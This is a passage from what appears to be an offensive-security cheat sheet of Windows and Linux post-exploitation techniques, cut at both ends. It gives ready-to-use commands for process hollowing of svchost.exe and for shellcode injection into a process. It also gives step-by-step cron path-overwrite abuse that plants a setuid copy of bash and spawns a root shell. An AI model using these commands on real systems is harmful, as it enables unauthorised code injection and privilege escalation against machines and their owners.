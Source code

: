 Domain: No

Local Admin: Yes

OS: Windows

Type: Injection

Methods:

1\.

hollow svchost.exe pop.bin

<a name="process-injection-through-memory-section"></a>
# Process Injection through Memory Section

Domain: No

Local Admin: Yes

OS: Windows

Type: Injection

Methods:

1\.

sec-shinject PID /path/to/bin

<a name="abusing-scheduled-tasks-via-cron-path-overwrite"></a>
# Abusing Scheduled Tasks via Cron Path Overwrite

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing Scheduled Tasks

Methods:

1.  echo \'cp /bin/bash /tmp/bash; chmod +s /tmp/bash\' \>
    > systemupdate.sh;

2.  chmod +x systemupdate.sh

3.  Wait a while

4.  /tmp/bash -p

5.  id && whoami

<a name="abusing-scheduled-tasks-via-cron-wildcards"></a>
# Abusing Scheduled Tasks via Cron Wildcards
